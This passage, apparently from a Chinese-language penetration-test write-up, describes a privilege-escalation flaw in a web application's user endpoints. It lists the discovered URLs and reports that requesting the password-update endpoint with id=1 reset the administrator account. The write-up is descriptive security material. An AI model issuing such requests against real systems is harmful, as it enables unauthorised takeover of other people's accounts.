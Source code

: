 <img src=".\pictures\image-20250521142136254.png" alt="image-20250521142136254.png" style="zoom:100%;" />

### 4.垂直/水平越权

再次借助findsomething插件，找到以下接口

```
/user.do
/user.do?method=UpdatePassword&id=
/user.do?method=deleteUser&id=
/user.do?method=goListIndex&current=
/user.do?method=goSearch&searchtext=
```

访问

```
/user.do?method=UpdatePassword&id=1
```

成功重置管理员账户，这里也是猜的，并不知道id=1就是admin账户，没想到成功登录了
